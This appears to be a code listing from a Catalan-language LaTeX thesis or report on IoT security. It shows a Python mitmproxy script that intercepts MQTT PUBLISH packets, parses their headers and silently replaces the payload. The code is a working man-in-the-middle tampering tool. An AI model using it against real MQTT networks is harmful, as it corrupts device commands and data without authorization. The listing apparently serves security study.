 \begin{lstlisting}[language=Python, caption={Script de modificació de missatges en mitmproxy en baix nivell}, label=ScriptMITM2]
from mitmproxy import tcp

def decode_remaining_length(data, offset):
    multiplier = 1
    value = 0
    bytes_used = 0
    while True:
        encoded_byte = data[offset]
        value += (encoded_byte & 127) * multiplier
        offset += 1
        bytes_used += 1
        if (encoded_byte & 128) == 0:
            break
        multiplier *= 128
    return value, bytes_used

def tcp_message(flow: tcp.TCPFlow):
    data = flow.messages[-1].content
    try:
        if data and data[0] & 0xF0 == 0x30:  # 0x30 = PUBLISH
            print("[+] Detected MQTT PUBLISH")

            # Decodificar
            remaining_length, len_len = decode_remaining_length(data, 1)

            fixed_header_len = 1 + len_len
            topic_len = int.from_bytes(data[fixed_header_len:fixed_header_len+2], "big")
            topic_start = fixed_header_len + 2
            topic_end = topic_start + topic_len
            payload_start = topic_end
            payload = data[payload_start:]

            print(f"[+] Topic: {data[topic_start:topic_end].decode()}")
            print(f"[+] Payload original: {payload}")

            # Modificar payload
            new_payload = b"MODIFICADO"

            new_remaining_length = 2 + topic_len + len(new_payload)
            new_remaining_bytes = bytearray()
            x = new_remaining_length
            while True:
                byte = x % 128
                x //= 128
                if x > 0:
                    byte |= 128
                new_remaining_bytes.append(byte)
                if x == 0:
                    break

            # Reconstruir el mensaje MQTT
            fixed_header = bytes([data[0]]) + bytes(new_remaining_bytes)
            topic_part = data[fixed_header_len:payload_start]
            new_msg = fixed_header + topic_part + new_payload

            flow.messages[-1].content = new_msg
            print(f"[+] Payload modificado: {new_payload}")

    except Exception as e:
        print(f"[!] Error modificando MQTT PUBLISH: {e}")
\end{lstlisting}

